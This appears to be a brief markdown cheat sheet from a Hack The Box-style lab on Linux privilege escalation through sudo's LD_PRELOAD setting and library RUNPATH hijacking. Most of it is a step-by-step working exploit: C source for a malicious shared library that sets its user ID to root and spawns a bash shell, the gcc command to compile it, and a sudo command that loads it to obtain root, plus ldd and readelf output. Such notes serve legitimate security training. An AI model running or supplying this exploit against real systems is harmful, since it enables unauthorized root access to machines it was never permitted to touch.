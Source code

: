 ### LD_PRELOAD
```sh
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

ldd /bin/ls

```

### Shared Library compile exploit
Step 1: Create .so file from .c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Step 2: Compile .so file on target if possible
```sh
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
STep 3: Execute LD_PRELOAD exploit
```sh
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

Ldd displays the location of the object and the hexadecimal address where it is loaded into memory
```sh
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

it is possible to load shared libraries from custom locations
```sh
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
